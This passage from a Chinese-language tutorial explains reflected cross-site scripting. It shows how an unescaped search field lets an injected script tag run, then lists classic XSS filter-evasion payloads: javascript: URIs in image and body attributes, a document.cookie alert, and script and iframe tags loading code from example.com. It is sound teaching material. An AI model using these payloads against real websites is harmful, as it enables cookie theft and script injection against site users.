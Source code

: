 ### 实施方式

我们来试一把Reflected cross-site scripting。当我们在某网站输入参数XXX，发现参数XXX原样的出现在了页面源码中： 

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;"><span style="color: #fb660a; font-weight: bold;">&lt;input</span> <span style="color: #ff0086; font-weight: bold;">type=</span><span style="color: #0086d2;">"text"</span> <span style="color: #ff0086; font-weight: bold;">class=</span><span style="color: #0086d2;">"Seach"</span> <span style="color: #ff0086; font-weight: bold;">name=</span><span style="color: #0086d2;">"w"</span> <span style="color: #ff0086; font-weight: bold;">value=</span><span style="color: #0086d2;">"XXX"</span> <span style="color: #fb660a; font-weight: bold;">/&gt;</span></div>

OK，可以开始做文章了，我们将XXX替换为：abc"/&gt;&lt;script&gt;alert('haha')&lt;/script&gt;&lt;a href="，返回的HTML代码如下：

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;"><span style="color: #fb660a; font-weight: bold;">&lt;input</span> <span style="color: #ff0086; font-weight: bold;">type=</span><span style="color: #0086d2;">"text"</span> <span style="color: #ff0086; font-weight: bold;">class=</span><span style="color: #0086d2;">"Seach"</span> <span style="color: #ff0086; font-weight: bold;">name=</span><span style="color: #0086d2;">"w"</span> <span style="color: #ff0086; font-weight: bold;">value=</span><span style="color: #0086d2;">"abc"</span><span style="color: #fb660a; font-weight: bold;">/&gt;&lt;script&gt;</span><span style="color: #ffffff;">alert</span><span style="color: #ffffff;">(</span><span style="color: #0086d2;">'haha'</span><span style="color: #ffffff;">)</span><span style="color: #fb660a; font-weight: bold;">&lt;/script&gt;</span><span style="color: #008800; font-style: italic; background-color: #0f140f;">&lt;!--" /&gt;</span></div>

这样，&lt;script&gt;alert('haha')&lt;/script&gt;被执行了。这里再举例一些XSS攻击行为： 

<div style="border: 1px solid #cccccc; padding: 4px 5px 4px 14px; background-color: #333333; color: #ffffff;">&lt;IMG SRC="javascript:alert('XSS');"&gt;

&lt;IMG SRC=javascript:alert('XSS')&gt;

&lt;IMG SRC="javascript:alert(String.fromCharCode(88,83,83))"&gt;

&lt;IMG SRC="jav	ascript:alert('XSS');"&gt;

&lt;SCRIPT/XSS SRC="http://example.com/xss.js"&gt;&lt;/SCRIPT&gt;

&lt;&lt;SCRIPT&gt;alert("XSS");//&lt;&lt;/SCRIPT&gt;

&lt;iframe src=http://example.com/scriptlet.html &lt;

&lt;INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');"&gt;

&lt;BODY BACKGROUND="javascript:alert('XSS')"&gt;

&lt;BODY ONLOAD=alert(document.cookie)&gt;

&lt;BODY onload!#$%&amp;()*~+-_.,:;?@[/|"]^`=alert("XSS")&gt;

&lt;IMG DYNSRC="javascript:alert('XSS')"&gt;

&lt;IMG DYNSRC="javascript:alert('XSS')"&gt;

&lt;BR SIZE="&amp;{alert('XSS')}"&gt;

&lt;IMG SRC='vbscript:msgbox("XSS")'&gt;

&lt;TABLE BACKGROUND="javascript:alert('XSS')"&gt;
